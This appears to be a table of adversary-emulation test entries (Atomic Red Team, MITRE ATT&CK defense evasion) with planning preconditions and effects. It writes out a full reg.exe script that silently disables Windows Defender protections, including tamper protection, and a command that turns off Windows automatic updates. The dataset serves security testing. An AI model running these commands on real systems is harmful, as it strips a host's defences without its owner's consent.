 | 1f6743da-6ecc-4a93-b03f-dc357e4b313f | Tamper with Windows Defender Registry - Reg.exe | \['T1562.001'\] | ART | \['windows'\] | \['Defense Evasion'\] | \['Impair Defenses: Disable or Modify Tools'\] | Disable Windows Defender by tampering with windows defender registry using the utility "reg.exe"<br> | {'executor': 'Elevated Command Prompt Executor', 'command': 'reg add "HKLM\\Software\\Policies\\Microsoft\\Windows Defender" /v "DisableAntiSpyware" /t REG_DWORD /d "1" /f >NUL 2>nul\nreg add "HKLM\\Software\\Policies\\Microsoft\\Windows Defender" /v "DisableAntiVirus" /t REG_DWORD /d "1" /f >NUL 2>nul\nreg add "HKLM\\Software\\Policies\\Microsoft\\Windows Defender\\Real-Time Protection" /v "DisableBehaviorMonitoring" /t REG_DWORD /d "1" /f >NUL 2>nul\nreg add "HKLM\\Software\\Policies\\Microsoft\\Windows Defender\\Real-Time Protection" /v "DisableIntrusionPreventionSystem" /t REG_DWORD /d "1" /f >NUL 2>nul\nreg add "HKLM\\Software\\Policies\\Microsoft\\Windows Defender\\Real-Time Protection" /v "DisableIOAVProtection" /t REG_DWORD /d "1" /f >NUL 2>nul\nreg add "HKLM\\Software\\Policies\\Microsoft\\Windows Defender\\Real-Time Protection" /v "DisableOnAccessProtection" /t REG_DWORD /d "1" /f >NUL 2>nul\nreg add "HKLM\\Software\\Policies\\Microsoft\\Windows Defender\\Real-Time Protection" /v "DisableRealtimeMonitoring" /t REG_DWORD /d "1" /f >NUL 2>nul\nreg add "HKLM\\Software\\Policies\\Microsoft\\Windows Defender\\Real-Time Protection" /v "DisableRoutinelyTakingAction" /t REG_DWORD /d "1" /f >NUL 2>nul\nreg add "HKLM\\Software\\Policies\\Microsoft\\Windows Defender\\Real-Time Protection" /v "DisableScanOnRealtimeEnable" /t REG_DWORD /d "1" /f >NUL 2>nul\nreg add "HKLM\\Software\\Policies\\Microsoft\\Windows Defender\\Real-Time Protection" /v "DisableScriptScanning" /t REG_DWORD /d "1" /f >NUL 2>nul\nreg add "HKLM\\Software\\Policies\\Microsoft\\Windows Defender\\Reporting" /v "DisableEnhancedNotifications" /t REG_DWORD /d "1" /f >NUL 2>nul \nreg add "HKLM\\Software\\Policies\\Microsoft\\Windows Defender\\SpyNet" /v "DisableBlockAtFirstSeen" /t REG_DWORD /d "1" /f >NUL 2>nul\nreg add "HKLM\\Software\\Policies\\Microsoft\\Windows Defender\\SpyNet" /v "SpynetReporting" /t REG_DWORD /d "0" /f >NUL 2>nul\nreg add "HKLM\\Software\\Policies\\Microsoft\\Windows Defender\\MpEngine" /v "MpEnablePus" /t REG_DWORD /d "0" /f >NUL 2>nul\nreg add "HKLM\\SOFTWARE\\Policies\\Microsoft\\Windows Defender Security Center\\App and Browser protection" /v "DisallowExploitProtectionOverride" /t REG_DWORD /d "0" /f >NUL 2>nul\nreg add "HKLM\\SOFTWARE\\Microsoft\\Windows Defender\\Features" /v "TamperProtection"  /t REG_DWORD /d "0" /f >NUL 2>nul\nreg add "HKLM\\software\\microsoft\\windows defender\\spynet" /v "SubmitSamplesConsent" /t REG_DWORD /d "0" /f >NUL 2>nul\nreg add "HKLM\\Software\\Microsoft\\Windows Defender" /v "PUAProtection" /t REG_DWORD /d "0" /f >NUL 2>nul\n'} | None | \['(command_prompt ?executor - executor ?target - host)', '(elevated_executor ?executor - executor)', '(os_windows ?target - host)'\] | \['(windows_defender_disabled ?target - host)'\] |
| 01b20ca8-c7a3-4d86-af59-059f15ed5474 | Disable Windows OS Auto Update | \['T1112'\] | ART | \['windows'\] | \['Defense Evasion'\] | \['Modify Registry'\] | Disable Auto Update Windows OS feature. Redline is using this as part of its defense evasion.<br> | {'executor': 'Elevated Command Prompt Executor', 'command': 'reg add "HKLM\\SOFTWARE\\Policies\\Microsoft\\Windows\\WindowsUpdate\\AU" /v "NoAutoUpdate" /t REG_DWORD /d 1 /f\n'} | None | \['(command_prompt ?executor - executor ?target - host)', '(elevated_executor ?executor - executor)', '(os_windows ?target - host)'\] | \['(auto_update_disabled ?target - host)'\] |